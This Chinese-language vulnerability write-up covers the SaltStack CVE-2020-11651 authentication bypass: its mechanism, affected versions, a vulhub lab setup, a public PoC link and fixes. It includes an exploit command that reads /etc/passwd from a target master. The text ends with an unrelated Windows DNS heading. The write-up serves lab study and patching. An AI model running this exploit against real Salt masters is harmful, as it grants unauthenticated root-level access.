 **1****、漏洞概述**

  

在 CVE-2020-11651认证绕过漏洞中攻击者通过构造恶意请求，可以绕过 Salt Master的验证逻辑，调用相关未授权函数功能，从而可以造成远程命令执行漏洞：

  

ClearFuncs类会处理非认证的请求和暴露_send_pub()方法，可以用来直接在master publish服务器上对消息进行排队。这些消息可以用来触发minion来以root权限运行任意命令。

  

ClearFuncs类还会暴露prep_auth_info()方法，该方法会返回用来认证master服务器上本地root用户的命令的root key。然后root key就可以远程调用master 服务器的管理命令。这种无意的暴露提供给远程非认证的攻击者对salt master的与root权限等价的访问权限。

  

**2****、影响版本**

l SaltStack < 2019.2.4  
l SaltStack < 3000.2

  

**3****、环境搭建**

直接使用vulhub进行搭建  
git clone https://github.com/vulhub/vulhub.git  
cd /vulhub/saltstack/CVE-2020-11651/  
docker-compose up -d

查看环境是否启动docker ps

  

**4****、漏洞复现**

Poc：

https://github.com/jasperla/CVE-2020-11651-poc

执行前需要安装salt库，需指定salt库版本

pip3 install salt==2019.2.3

读取文件：

python3 exploit.py --master 192.168.232.170 -r /etc/passwd

  

**5****、修复方式**

1、SaltStack官方已发布最新版本修复此漏洞，建议相关用户及时更新至安全版本及其以上，并开启SaltStack自动更新，以便实时获取补丁或升级至安全版本：https://repo.saltstack.com/  
2、禁止将Salt Master默认监听端口（4505、4506）向公网开放，并设置为仅对可信对象开放。  

13  
  

  

  

Windows DNS Server蠕虫级远程代码执行漏洞
=============================

  